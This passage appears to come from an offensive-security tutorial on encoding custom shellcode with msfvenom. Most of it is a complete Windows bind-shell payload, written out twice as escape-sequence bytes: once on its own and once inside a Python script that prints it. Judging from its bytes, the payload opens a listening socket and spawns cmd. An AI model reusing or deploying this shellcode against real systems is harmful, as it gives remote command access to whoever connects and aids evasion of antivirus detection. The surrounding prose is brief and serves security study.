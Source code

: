 Payload within escape sequence format:

```term
"\x60\x9C\xFC\xE8\x82\x00\x00\x00\x60\x89\xE5\x31\xC0\x64\x8B\x50\x30\x8B\x52\x0C\x8B\x52\x14\x8B\x72\x28\x0F\xB7\x4A\x26\x31\xFF\xAC\x3C\x61\x7C\x02\x2C\x20\xC1\xCF\x0D\x01\xC7
\xE2\xF2\x52\x57\x8B\x52\x10\x8B\x4A\x3C\x8B\x4C\x11\x78\xE3\x48\x01\xD1\x51\x8B\x59\x20\x01\xD3\x8B\x49\x18\xE3\x3A\x49\x8B\x34\x8B\x01\xD6\x31\xFF\xAC\xC1\xCF\x0D\x01\xC7\x38\
xE0\x75\xF6\x03\x7D\xF8\x3B\x7D\x24\x75\xE4\x58\x8B\x58\x24\x01\xD3\x66\x8B\x0C\x4B\x8B\x58\x1C\x01\xD3\x8B\x04\x8B\x01\xD0\x89\x44\x24\x24\x5B\x5B\x61\x59\x5A\x51\xFF\xE0\x5F\x
5F\x5A\x8B\x12\xEB\x8D\x5D\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5F\x54\x68\x4C\x77\x26\x07\xFF\xD5\xB8\x90\x01\x00\x00\x29\xC4\x54\x50\x68\x29\x80\x6B\x00\xFF\xD5\x6A\x08\x59\x5
0\xE2\xFD\x40\x50\x40\x50\x68\xEA\x0F\xDF\xE0\xFF\xD5\x97\x68\x02\x00\x23\x28\x89\xE6\x6A\x10\x56\x57\x68\xC2\xDB\x37\x67\xFF\xD5\x57\x68\xB7\xE9\x38\xFF\xFF\xD5\x57\x68\x74\xEC
\x3B\xE1\xFF\xD5\x57\x97\x68\x75\x6E\x4D\x61\xFF\xD5\x68\x63\x6D\x64\x00\x89\xE3\x57\x57\x57\x31\xF6\x6A\x12\x59\x56\xE2\xFD\x66\xC7\x44\x24\x3C\x01\x01\x8D\x44\x24\x10\xC6\x00\
x44\x54\x50\x56\x56\x56\x46\x56\x4E\x56\x56\x53\x56\x68\x79\xCC\x3F\x86\xFF\xD5\x89\xE0\x90\x56\x46\xFF\x30\x68\x08\x87\x1D\x60\xFF\xD5\xBB\xF0\xB5\xA2\x56\x68\xA6\x95\xBD\x9D\x
FF\xD5\x3C\x06\x7C\x0A\x80\xFB\xE0\x75\x05\xBB\x47\x13\x72\x6F\x6A\x00\x53\x81\xC4\x00\x02\x00\x00\x9D\x61\x68\xB8\x7F\x49\x00\xE9\xBA\xF0\xF5\xFF"
```

In order to encode the payload, the STDIN function from msfvenom shall be used. So as to achievethis result, a python script will be employed, that may contain a variable with 
the payload, so that it is then printed into the command-line. Moreover, msfvenom will analyze such data and encode it.

Python script:

```term
root@whitecr0wz:~# cat custom.py 

shellcode = (

"\x60\x9C\xFC\xE8\x82\x00\x00\x00\x60\x89\xE5\x31\xC0\x64\x8B\x50\x30\x8B\x52\x0C\x8B\x52\x14\x8B\x72\x28\x0F\xB7\x4A\x26\x31\xFF\xAC\x3C\x61\x7C\x02\x2C\x20\xC1\xCF\x0D\x01\xC7
\xE2\xF2\x52\x57\x8B\x52\x10\x8B\x4A\x3C\x8B\x4C\x11\x78\xE3\x48\x01\xD1\x51\x8B\x59\x20\x01\xD3\x8B\x49\x18\xE3\x3A\x49\x8B\x34\x8B\x01\xD6\x31\xFF\xAC\xC1\xCF\x0D\x01\xC7\x38\
xE0\x75\xF6\x03\x7D\xF8\x3B\x7D\x24\x75\xE4\x58\x8B\x58\x24\x01\xD3\x66\x8B\x0C\x4B\x8B\x58\x1C\x01\xD3\x8B\x04\x8B\x01\xD0\x89\x44\x24\x24\x5B\x5B\x61\x59\x5A\x51\xFF\xE0\x5F\x
5F\x5A\x8B\x12\xEB\x8D\x5D\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5F\x54\x68\x4C\x77\x26\x07\xFF\xD5\xB8\x90\x01\x00\x00\x29\xC4\x54\x50\x68\x29\x80\x6B\x00\xFF\xD5\x6A\x08\x59\x5
0\xE2\xFD\x40\x50\x40\x50\x68\xEA\x0F\xDF\xE0\xFF\xD5\x97\x68\x02\x00\x23\x28\x89\xE6\x6A\x10\x56\x57\x68\xC2\xDB\x37\x67\xFF\xD5\x57\x68\xB7\xE9\x38\xFF\xFF\xD5\x57\x68\x74\xEC
\x3B\xE1\xFF\xD5\x57\x97\x68\x75\x6E\x4D\x61\xFF\xD5\x68\x63\x6D\x64\x00\x89\xE3\x57\x57\x57\x31\xF6\x6A\x12\x59\x56\xE2\xFD\x66\xC7\x44\x24\x3C\x01\x01\x8D\x44\x24\x10\xC6\x00\
x44\x54\x50\x56\x56\x56\x46\x56\x4E\x56\x56\x53\x56\x68\x79\xCC\x3F\x86\xFF\xD5\x89\xE0\x90\x56\x46\xFF\x30\x68\x08\x87\x1D\x60\xFF\xD5\xBB\xF0\xB5\xA2\x56\x68\xA6\x95\xBD\x9D\x
FF\xD5\x3C\x06\x7C\x0A\x80\xFB\xE0\x75\x05\xBB\x47\x13\x72\x6F\x6A\x00\x53\x81\xC4\x00\x02\x00\x00\x9D\x61\x68\xB8\x7F\x49\x00\xE9\xBA\xF0\xF5\xFF"

)

print (shellcode)
root@whitecr0wz:~# 
```
